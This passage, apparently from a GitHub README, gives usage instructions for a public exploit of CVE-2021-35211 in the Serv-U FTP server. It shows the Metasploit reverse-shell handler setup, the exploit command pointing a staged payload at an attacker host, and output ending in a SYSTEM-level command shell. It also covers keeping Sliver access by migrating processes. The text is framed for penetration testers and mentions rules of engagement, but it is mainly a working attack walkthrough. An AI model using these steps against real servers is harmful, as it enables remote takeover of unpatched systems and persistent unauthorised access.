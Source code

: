 `stageHost` and `stagePort` will point to a listening handler on your Sliver/Metasploit box. You can choose any payload you like, but I've found that the only one that works reliably is `windows/x64/shell/reverse_tcp`. This is a shame because this isn't an encrypted shell and you'll need to check your rules of engagement before popping something like that.

Again, **caveat emptor**.

Set it up in Metasploit running on your kali box like so:

```
elvis@kali:~ msfconsole
...
msf5 >
msf5 > handler -H 0.0.0.0 -P 10444 -p windows/x64/shell/reverse_tcp
[*] Payload handler running as background job 1.
```

Then run the exploit:

```
% python3 CVE-2021-35211.py example.com stage your.metasploit.box 31337
[+] Targeting example.com:22
[+] Setting up exploit payload buffer
[+] Constructing ROP chain
[+] Adding shellcode
[+] Spraying Serv-U-FTP server @ example.com:22
[+] Sending exploit trigger payload...
[+] Done! Sometimes it takes a few runs to work - try again if it failed.

```

Back on the kali box you should see the stage request and the command shell starting:

```
msf5 >
[*] Sending stage (336 bytes) to example.com
[*] Command shell session 6 opened (10.10.10.14:10444 -> example.com:57562) at 2021-10-22 18:50:11 +0000

msf5 >sessions -i 6
[*] Starting interaction with 6...


(c) Microsoft Corporation. All rights reserved.

C:\Program Files\RhinoSoft\Serv-U>whoami
whoami
nt authority\system
```

#### Sliver
Sliver support in the stager payload is highly experimental and rarely works. If it does work you'll normally see the sessions start and immediately die. But if you get a session that doesn't immediately terminate you can take steps to maintain your Sliver access by migrating to a different process.
